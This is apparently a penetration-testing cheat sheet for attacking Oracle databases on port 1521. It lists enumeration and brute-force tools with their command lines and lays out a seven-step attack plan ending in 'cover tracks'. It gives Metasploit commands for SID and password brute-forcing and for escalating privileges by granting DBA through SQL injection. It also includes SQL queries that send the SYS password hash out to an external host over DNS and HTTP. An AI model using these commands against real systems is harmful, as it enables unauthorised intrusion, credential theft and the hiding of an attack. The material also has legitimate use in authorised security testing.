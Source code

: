 ## Port 1521 - Oracle


    Oracle Enumeration
        oracsec
        Repscan
        Sidguess
        Scuba
        DNS/HTTP Enumeration
            SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL

            SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
        WinSID
        Oracle default password list
        TNSVer
            tnsver host [port]
        TCP Scan
        Oracle TNSLSNR
            Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
        TNSCmd
            perl tnscmd.pl -h ip_address
            perl tnscmd.pl version -h ip_address
            perl tnscmd.pl status -h ip_address
            perl tnscmd.pl -h ip_address --cmdsize (40 - 200)
        LSNrCheck
        Oracle Security Check (needs credentials)
        OAT
            sh opwg.sh -s ip_address
            opwg.bat -s ip_address
            sh oquery.sh -s ip_address -u username -p password -d SID OR c:\oquery -s ip_address -u username -p password -d SID
        OScanner
            sh oscanner.sh -s ip_address
            oscanner.exe -s ip_address
            sh reportviewer.sh oscanner_saved_file.xml
            reportviewer.exe oscanner_saved_file.xml
        NGS Squirrel for Oracle
        Service Register
            Service-register.exe ip_address
        PLSQL Scanner 2008
    Oracle Brute Force
        OAK
            ora-getsid hostname port sid_dictionary_list
            ora-auth-alter-session host port sid username password sql
            ora-brutesid host port start
            ora-pwdbrute host port sid username password-file
            ora-userenum host port sid userlistfile
            ora-ver -e (-f -l -a) host port
        breakable (Targets Application Server Port)
            breakable.exe host url [port] [v]host ip_address of the Oracle Portal Serverurl PATH_INFO i.e. /pls/orassoport TCP port Oracle Portal Server is serving pages fromv verbose
        SQLInjector (Targets Application Server Port)
            sqlinjector -t ip_address -a database -f query.txt -p 80 -gc 200 -ec 500 -k NGS SOFTWARE -gt SQUIRREL
            sqlinjector.exe -t ip_address -p 7777 -a where -gc 200 -ec 404 -qf q.txt -f plsql.txt -s oracle
        Check Password
        orabf
            orabf [hash]:[username] [options]
        thc-orakel
            Cracker
            Client
            Crypto
        DBVisualisor
            Sql scripts from pentest.co.uk
            Manual sql input of previously reported vulnerabilties
    Oracle Reference Material
        Understanding SQL Injection
        SQL Injection walkthrough
        SQL Injection by example
        Advanced SQL Injection in Oracle databases
        Blind SQL Injection
        SQL Cheatsheets

            http://ha.ckers.org/sqlinjection

            http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/

            http://www.0x000000.com/?i=14

            http://pentestmonkey.net/ 



1. Locate a system running Oracle.
2. Determine Oracle version.
3. Determine Oracle SID.
4. Guess/Bruteforce USERNAME/PASS.
5. Privilege escalation via SQL injection.
6. Manipulate data/post exploitation.
7. Cover tracks.
------------------------------------------------------------------------------------------------------

1. nmap -Pn -n -T4 --open -p1521 <target IP>

2. Example 1
     msf > use auxiliary/scanner/oracle/tnslsnr_version
     db_notes
     
   Example 2
     tnscmd10g version -h <target IP>
     tnscmd10g status -h <target IP>
     Look for the version, LOGFILE, TRACING and PORT.
   
3. Example 1
     msf > use auxiliary/scanner/oracle/sid_enum
     msf > use auxiliary/admin/oracle/sid_brute
     
   Example 2  
     sidguess -i <target IP> -d /usr/share/metasploit-framework/data/wordlists/sid.txt

   Example 3
     http://<target IP>:8080/oradb/PUBLIC/GLOBAL_NAME

4. Example 1
     msf > use auxiliary/admin/oracle/login_brute
     set SID <sid>
     
   Example 2 
     sqlplus <username>/<password>@<target IP>:<port>/<SID>

5. msf > use auxiliary/admin/oracle/sql
   set DBUSER <user>
   set DBPASS <password>
   set SID <sid>
   set SQL select * from user_role_privs
   
   msf > use auxiliary/admin/oracle/pushin/lt_findricset_cursor
   set DBUSER <user>
   set DBPASS <password>
   set SID <sid>
   set SQL GRANT DBA TO <user>
   set SQL GRANT JAVASYSPRIV TO <user>
   
6. select * from v$version;                  -- Oracle version
   select * from dba_registry_history;       -- Oracle patch level
   select * from all_users;                  -- usernames
   select owner,table_name from all_tables;  -- tables
   select * from session_roles;              -- session roles
   desc utl_http                             -- describes database objects


http://www.youtube.com/watch?v=SVvAvmjT7V4#t=1535

